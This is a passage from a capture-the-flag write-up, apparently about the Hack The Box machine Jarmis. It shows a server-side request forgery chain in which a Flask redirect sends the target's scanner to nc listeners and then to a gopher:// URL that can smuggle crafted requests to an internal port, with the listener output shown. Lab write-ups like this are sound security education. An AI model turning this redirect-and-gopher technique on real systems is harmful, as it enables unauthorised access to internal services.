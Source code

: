When I send the scan from Jarmis, it works, redirected by MSF to Flask,
and by Flask to `nc` listening:



    oxdf@parrot$ nc -lnvp 80
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:53838.
    GET / HTTP/1.1
    Host: 10.10.14.6
    User-Agent: curl/7.74.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive



#### Gopher

The next question is, can I redirect to a Gopher URL? I've shown this
before in [Laser](/htb-laser.md#apache-solr-exploit) and
[Travel](/htb-travel.md#interaction-with-memcache). Gopher
is nice for this kind of thing because it has no headers. What you put
in the URL is the body, so you can use it to write a HTTP POST request.

I'll replace the location line in the server with:



        return redirect(f'gopher://10.10.14.6:5985/_test', code=301)



On submitting my URL to Jarmis, the redirects lead to this connection:



    oxdf@parrot$ nc -lnvp 5985
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::5985
    Ncat: Listening on 0.0.0.0:5985
    Ncat: Connection from 10.10.11.117.
    Ncat: Connection from 10.10.11.117:47660.
    test



It worked! There's one trick to notice here that is important. If I run
that again and save the result to a file:



    oxdf@parrot$ nc -lnvp 5985 | tee test
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::5985
    Ncat: Listening on 0.0.0.0:5985
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:42184.
    test
    ^C
